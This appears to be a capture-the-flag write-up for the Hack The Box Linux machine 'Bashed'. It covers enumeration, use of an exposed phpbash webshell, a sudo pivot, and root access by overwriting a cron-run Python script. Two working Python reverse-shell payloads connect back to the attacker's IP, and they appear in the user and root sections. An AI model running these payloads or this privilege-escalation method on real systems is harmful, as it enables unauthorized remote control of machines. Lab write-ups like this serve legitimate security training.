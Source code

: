 ```yaml
---
title: HTB - Bashed
date: 2020-08-04 00:00
categories: [Writeups, hackthebox]
tags: [htb, linux, machines, bashed, apache, ubuntu, nmap, webshell, http, php, dirbuster, sudo, python, cron]
---
```


Bashed is a Linux machine running just a Web Server. However, this server is also used by for development by the Administrator. As we enumerate the service, we can see that the HTTP service account is given sudo privileges and Apache Web Seerver is also running on default config. The cron job running as root user execute scripts without any sanity check. 

## Information Gathering

### NMAP
Run a quick scan on all ports and then run default scripts and OS/Version detection on open ports only.
```terminal
$ sudo nmap -sV -sC -O -p80 -oA nmap/full-tcp 10.10.10.68
```
![nmap_scan](/assets/img/sample/htb-bashed-nmap-scan.png)

Only one port[HTTP:80] is open and its an **Apache httpd 2.4.18** running on **Ubuntu** server.

### HTTP [p.80]

Opening the website in browser loads "**Arrexel's Development Site**". 

![http_home](/assets/img/sample/htb-bashed-http-home.png)

There is only one post linked to home-page and it takes us to /single.html`. It's a blog-post that describes some **phpbash** webshell. The developer explains that this webshell was developed on this server.

![http_single](/assets/img/sample/htb-bashed-http-single.png)

Also if we inspect source-code of homepage, we can see a [GitHub Link to 'phpbash' source](https://github.com/Arrexel/phpbash)

![http_github](/assets/img/sample/htb-bashed-http-github.png)

Screenshots given by dev on github page and blog page shows a link to "*../uploads/phpbash.php*". However, the link gives us Error 404. The **uploads** directory exists and it redirects to "*../uploads/index.html*" but the **phpbash.php** webshell is not here :(

To enumerate the box further, we need to move on to *Directory Traversal Attacks* like bruteforce and Fuzz the hidden directories on server. `dirbuster` will do the job nicely here. Since `phpbash.php` is not in **uploads** and also not int web-root directory. So, the first step will be to figure out if there are any other directories (*like /uploads*) that are still hidden from us.

![http_dirbuster](/assets/img/sample/htb-bashed-http-dirbuster.png)

We can see that in addition to `/uploads/` directory, there are other directories including `/dev/` folder.

## User Shell

### Webshell [phpbash]

If we browse to any directory (like eg. /images), we can see full listing of its contents. So that makes it easier to go through their contents without guessing filenames. The dev has kept Apache's *Indexes Options* enabled globally and it helps our cause. The webshell can be found in `/dev/` directory.

![www_dev](/assets/img/sample/htb-bashed-www-dev.png)

Click on any of the two scripts and we get access to phpbash webshell as `www-data`

![www_shell](/assets/img/sample/htb-bashed-www-shell.png)

At this point, we should be able to grab the **user** flag from `/home/arrexel/user.txt`

### User [scriptmanager]

To get a interactive bash shell, we can send a **Reverse Shell** back to our machine. We can check from webshell that *Python* is available on the target box. Listen on Port `2222` with netcat and execute the following Python code.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
![reverse_shell](/assets/img/sample/htb-bashed-reverse-shell.png)

From `/etc/passwd` file, we can see that there 3 user accounts on this server.
```
root:x:0:0:root:/root:/bin/bash
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```
And, most interestingly, **www-data** service account has `sudo` privliges to run commands as user **scriptmanager**.

```terminal
$ sudo -l
```
![www_sudo](/assets/img/sample/htb-bashed-www-sudol.png)

Get the shell as user **scriptmanager** simply by running `bash` with `sudo`

```terminal
$ sudo -u scriptmanager bash -i
```

### Root
User account **scriptmanager** does not have sudo privliges. We can run enumeration scripts to look for weeknesses but navigating through the filesystem, this conspicuous `/scripts` folder stand out too much.

![scripts_folder](/assets/img/sample/htb-bashed-scripts-folder.png)

There is a very simple Python script **test.py** and a text file **test.txt** in `/scripts/` folder. Here's the source code with explanation added in comments:

```python
f = open("test.txt", "w")	# Open's the file "test.txt" in "write-only" mode
f.write("testing 123!")		# write a string "testing 123!" in opened file
f.close						# Close the file
```
Let's look at properties of these files:
```
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jul 31 13:25 test.txt
```
We can see that:
1. User `scriptmanager` is the owner of Python script **test.py**
2. The file **text.txt**, created as a result of running the script, has `root` as owner. This means that whichever process executed the **test.py** script is being run by the ownership of `root`
3. The timestamp associated with **test.txt** is the current time more or less. With a bit of observation, we can find that the timestamp is being updated every 1 minute. So, this can be most probably a **cron** job.

To get **root** privliges, we can simply edit the Python script **test.py** and make the cron job send us root shell on our machine. Let's modify the same python reverse-shell script we used earlier and also change port to an unused one, lets say `2223`
```python
#!/usr/bin/env python3
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.12",2223))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```
And that should be it!! Liten on `2223` port on our machine with `netcat` and upload the script to **/scripts/test.py**. As soon as the cron job kicks in, we get the reverse shell on our machine as **root**

![root_shell](/assets/img/sample/htb-bashed-root-shell.png)